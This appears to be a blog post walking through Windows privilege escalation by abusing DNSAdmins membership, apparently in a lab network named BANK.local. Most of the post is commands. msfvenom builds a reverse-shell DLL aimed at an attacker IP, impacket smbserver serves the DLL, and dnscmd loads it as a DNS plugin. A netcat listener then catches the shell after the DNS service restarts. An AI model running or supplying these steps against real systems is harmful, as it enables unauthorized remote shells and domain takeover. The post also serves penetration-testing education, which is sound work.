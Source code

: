```yaml
---
title: Windows Privilege Escalation DNSAdmin to Domain Admin DLL Injection.
author: Udesh
date: 2020-04-08
categories: [Windows, Privilege Escalation]
tags: [Privilege Escalation]
---
```

This post will cover a very specific privilege escalation technique: Abusing DNSAdmin membership to gain domain admin. 

## Prepping

Checking if our user is a part of the DNSAdmins group:

type : `C:\>whoami /all`

![whoami.jpg]({{site.baseurl}}/assets/img/post/post1/1.jpg)

you can see our user in the DNSAdmins group

## Creating & serving the malicious DLL

Now we need to prepare a DLL that will be supplied as the serverlevelplugindll. so,here we are gointo use msfvenom tool. 

    $msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.X LPORT=4444 --platform=windows -f dll > ~/Desktop/plugin.dll`

Now, let’s use impacket's smbserver.py SMB server to serve this DLL. 

```shell
sudo python smbserver.py -debug SHARE /home/kali/share
```
## Injecting the DLL

Now, we are going to use dnscmd.exe to set our newly created DLL as a configfile for DNS,

```shell
C:\>dnscmd.exe BANK.local /config /serverlevelplugindll \10.10.10.X\SHARE\plugin.dll
```
Before you continue, make sure you have started you listener on the attacking machine so you are able to catch the revshell.
```shell
$nc -nvlp 4444
```
Once done, we can restart the DNS service to execute: 

```shell
$sc.exe stop dns
$sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell. 😎
